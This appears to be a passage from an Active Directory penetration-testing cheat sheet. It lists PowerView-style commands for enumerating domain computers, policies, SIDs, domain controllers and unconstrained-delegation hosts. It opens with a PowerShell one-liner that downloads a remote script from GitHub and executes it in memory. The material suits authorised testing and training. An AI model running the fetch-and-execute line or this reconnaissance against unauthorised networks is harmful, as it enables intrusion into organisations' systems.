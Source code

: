 ## Native AD Module

```powershell
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

## General Enumeration

### Domain Computer Enumeration

```bash
# List all computers in current Domain
Get-DomainComputer
Get-DomainComputer | Select Name,Description | Sort Name

# Ping all alive computers in current Domain
Get-DomainComputer -Ping

# List all computers with select Operating System
Get-DomainComputer -OperatingSystem "Windows 10 Pro"
Get-DomainComputer -OperatingSystem "Windows 7*"
Get-DomainComputer -OperatingSystem "Windows 8*"
Get-DomainComputer -OperatingSystem "Windows xp*"

# Get Computer objects that have Unconstrained Delegation
Get-DomainComputer -Unconstrained
```

### Domain Enumeration

```bash
# Domain Information
Get-NetDomain

# Domain Policy Information
Get-DomainPolicy
(Get-DomainPolicy)."SystemAccess"
(Get-DomainPolicy –domain <Domain>)."systemaccess"
(Get-DomainPolicy)."KerberosPolicy" 

# Get Domain SID
Get-DomainSID
```

### Domain Controller Enumeration

```bash
# Get all Domain Dontrollers
Get-NetDomainController

# Get Primary Domain Controller
Get-NetDomain | Select-Object 'PdcRoleOwner'

# Get Domain Controller in different Domain
Get-NetDomainController -Domain <Domain>
```
